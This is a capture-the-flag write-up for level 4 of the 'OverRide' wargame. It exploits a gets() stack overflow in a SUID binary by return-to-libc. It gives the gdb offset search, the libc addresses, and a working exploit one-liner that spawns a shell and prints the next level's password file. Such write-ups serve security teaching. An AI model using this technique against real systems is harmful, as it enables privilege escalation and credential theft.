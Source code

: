 # Level 4

## Vulnerability

gets() stack overflow + Return-to-libc

## Context

We find a binary with owner ```level05``` and SUID.
```
level04@OverRide:~$ ls -l
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04
```

When run it gives us a hint, then reads from stdin, then exits.
```
level04@OverRide:~$ ./level04
Give me some shellcode, k
[... user input from stdin ...]
child is exiting...
level04@OverRide:~$
```

## Solution

### main() overview

First ```main()``` forks a child process, and links the child's return to the parent.

Then ```gets()``` reads stdin into a buffer.

Finally the child process is killed if it makes a syscall to exec().

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level04/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

### Find EIP offset

The ```gets()``` call is vulnerable to buffer overflow, lets try to overflow and overwrite EIP, and so take control of the program.

Because ```gets()``` is called by the child process, to investigate in gdb we need to follow the child using the command ```set follow-fork-mode child```.

Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find we reach the EIP after 156 bytes.
```
level04@OverRide:~$ gdb -q level04
...
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04
[New process 1701]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2A

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1701]
0x41326641 in ?? ()               // EIP offset = 156 bytes
```

### Find libc addresses

However, if we try to insert a malicious shellcode which opens a shell the child process is killed. So let's try a return-to-libc attack. First, we need the address of ```system()```, ```exit()``` & ```"/bin/sh"```.
```
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

### Build exploit

So we build our exploit string:
1. 156 byte buffer - ```python -c "print 'A' * 156"```
2. system() address - ```\xd0\xae\xe6\xf7```
3. exit() address - ```\x70\xeb\xe5\xf7```
4. "/bin/sh" address - ```\xec\x97\xf8\xf7```

Let's pipe our exploit string into the binary stdin.
```
level04@OverRide:~$ (python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" ; cat) |./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
